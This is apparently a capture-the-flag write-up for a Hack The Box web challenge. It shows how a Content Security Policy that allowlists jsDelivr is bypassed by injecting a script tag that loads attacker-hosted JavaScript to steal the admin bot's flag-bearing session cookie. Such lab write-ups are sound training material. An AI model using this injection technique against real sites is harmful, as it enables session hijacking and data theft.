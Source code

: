 # Cursed Secret Party

We start on this web page:

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We capture the request and see that it looks like this:

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the response we can see a CSP, so we head to [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and look to see if the CSP is safe:

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the&#x20;

script-src is not safe according to the website&#x20;

```
Host allowlists can frequently be bypassed. Consider using 'strict-dynamic' in combination with CSP nonces or hashes.
```

on top of that The cdn.jsdelivr.net host is whitelisted to load JavaScript files. JSDeliver is a free CDN that allows for loading any JavaScript files hosted in NPM or GitHub

in the bot.js file i find the following line to show the flag:&#x20;

```
	let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
```

```
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);
```

```
<script src="https://github.com/felixbillieres/HTBjsdelivryexploit/blob/main/test.js"> </script>
```

the syntax to create a jsDeliver file is [https://cdn.jsdelivr.net/gh/\<USERNAME>/\<REPO>@\<BRANCH>/\<PATH\_TO\_FILE>\
](https://cdn.jsdelivr.net/gh/%3CUSERNAME%3E/%3CREPO%3E@%3CBRANCH%3E/%3CPATH_TO_FILE%3E) so i adapt it to my repo:

[https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js](https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js)-- -

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
